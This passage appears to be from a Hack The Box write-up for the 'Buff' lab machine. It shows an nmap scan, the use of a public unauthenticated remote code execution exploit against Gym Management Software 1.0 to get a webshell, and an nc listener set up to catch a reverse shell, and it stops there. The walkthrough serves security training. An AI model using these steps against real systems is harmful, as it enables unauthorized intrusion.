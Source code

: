 # Buff
## Enumeration

I start with a nmap scan on all tcp ports of the machine
```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.198 -vvv
PORT     STATE SERVICE    REASON
7680/tcp open  pando-pub  syn-ack ttl 127
8080/tcp open  http-proxy syn-ack ttl 127
```

visiting the port 8080 of the machine I find a "gym" website, heading to contact.php I find is a site built with Gym Management Software 1.0

![Desktop View](/img/htb/buff/contact_php.png)

## shell as shaun

Searching for exploits I find an unauthenticated remote command execution for  [__gym management system 1.0__](https://www.exploit-db.com/exploits/48506), I clone the script to my machine
```bash
$ searchsploit -m php/webapps/48506.py
```

and I run the script 

```bash
$ ./48506.py http://10.10.10.198:8080/
...<snip>...
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

to upgrade the webshell to a normal shell I will download nc on the target machine.

first I start a nc listener 
```bash
$ rlwrap -cAr nc -lvnp 9001
```
